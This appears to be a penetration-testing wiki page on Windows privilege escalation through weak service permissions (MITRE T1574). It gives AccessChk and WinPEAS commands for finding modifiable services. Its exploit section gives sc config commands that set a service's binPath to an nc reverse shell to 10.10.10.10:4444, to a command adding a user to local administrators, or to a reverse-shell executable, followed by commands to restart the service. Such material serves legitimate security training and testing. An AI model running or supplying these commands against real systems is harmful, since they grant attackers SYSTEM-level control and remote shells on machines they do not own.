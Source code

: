 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Technique T1574
---
```


# Weak Service Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have permissions over the service you can use it to escalate you privileges.

## Practice

If we have enough permissions over a service, we can edit the `binPath` parameters and replace it with our own binary or command.

{% tabs %}
{% tab title="Enumerate" %}
If you have `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS` permissions, you can replace the binary.

We can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.

```powershell
#list all the services that a specific user can modify.
accesschk64.exe -uwcqv "pwned" * -accepteula
accesschk64.exe -uwcqv "Authenticated Users" * -accepteula
accesschk64.exe -uwcqv "BUILTIN\Users" * -accepteula
accesschk.exe -uwcqv %USERNAME% * -accepteula

#list permissions of evryone.
accesschk64.exe -uwcqv * -accepteula

#list permissions for "VulnSvc" service.
accesschk64.exe -uwcqv VulnSvc -accepteula
```

We also can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We can edit the binpath parameter with following commands

```powershell
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"s
sc config <Service_Name> binpath= "C:\Documents and Settings\PEPE\reverseShell.exe"
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
